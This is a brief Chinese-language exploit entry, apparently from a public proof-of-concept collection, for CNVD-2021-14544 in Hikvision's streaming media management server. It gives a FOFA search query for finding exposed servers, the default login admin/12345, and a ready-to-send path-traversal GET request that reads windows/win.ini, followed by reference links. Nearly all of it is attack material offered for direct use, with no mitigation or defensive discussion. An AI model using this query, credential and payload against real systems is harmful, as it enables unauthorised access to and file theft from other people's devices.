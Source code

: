 # 海康威视 流媒体管理服务器任意文件读取/通用弱口令 CNVD-2021-14544

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞获取敏感信息。

FOFA:

```
title="流媒体管理服务器"
```

默认口令：admin/12345

**PoC:**

```
GET /systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
```

ref:

* https://forum.ywhack.com/thread-115314-1-8.html
* https://www.cnvd.org.cn/flaw/show/CNVD-2021-14544